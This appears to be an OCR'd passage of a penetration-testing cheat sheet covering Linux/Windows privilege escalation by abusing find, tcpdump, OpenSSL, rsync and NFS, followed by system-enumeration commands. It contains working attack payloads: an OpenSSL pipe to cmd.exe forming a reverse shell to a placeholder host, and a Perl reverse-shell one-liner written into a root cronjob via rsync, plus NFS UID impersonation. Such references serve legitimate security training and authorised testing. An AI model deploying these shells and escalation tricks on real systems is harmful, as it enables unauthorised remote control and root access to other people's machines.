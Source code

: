Using find as the payload has the charm that we can execute commands via find f1 -exec "whoami" \; (file f1 must exist)

**Abusing TCPDump**
With -z you can execute commands via TCPDump.
**Abusing OpenSSL**

Openssl  can read files and write into files via network. So it can be used for  exfil and infil of Data. In addition a bind or reverse shell can be  implemented via OpenSSL, e.g.:

openssl.exe  s_client -quiet -connect <ip>:<port> | cmd.exe |  openssl.exe s_client -quiet -connect <ip>:<port>`

**Rsync**

If permissions allow it one can get RCE with RSync by overwriting the cronjobs file.

*  * * * * root perl -e 'use  Socket;$i="<ip>";$p=<port>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh  -i");};

**NFS Shares**

When  mounting nfs-shares with mount <ip>:/<path> <folder>  you can impersonate users by running the command with a local user that  has the uid you want to use on target box, as it just matches the uids  when checking for permissions.

Interesting Reads
    Privilege escalation using LD_PRELOAD
    Linux privilege escalation using shared libraries
    Abusing Shared Libraries
**Determine Linux Distribution and Version    **
**For Finding Kernel Exploits**
cat /etc/issue
 cat /etc/*-release
cat /etc/lsb-release
cat /etc/redhat-release
**Determine Kernel Version**
cat /proc/version
uname -a
uname -mrs
rpm -q kernel
dmesg | grep Linux
ls /boot | grep vmlinuz-
**Get Environment Variables**
cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
env
set
printenv <env name>
**Get Running Services**
ps aux
ps -ef
top
htop
cat /etc/service
**Root Services**
ps aux | grep root
ps -ef | grep root
**Installed Applications**
ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
apt list --installed
rpm -qa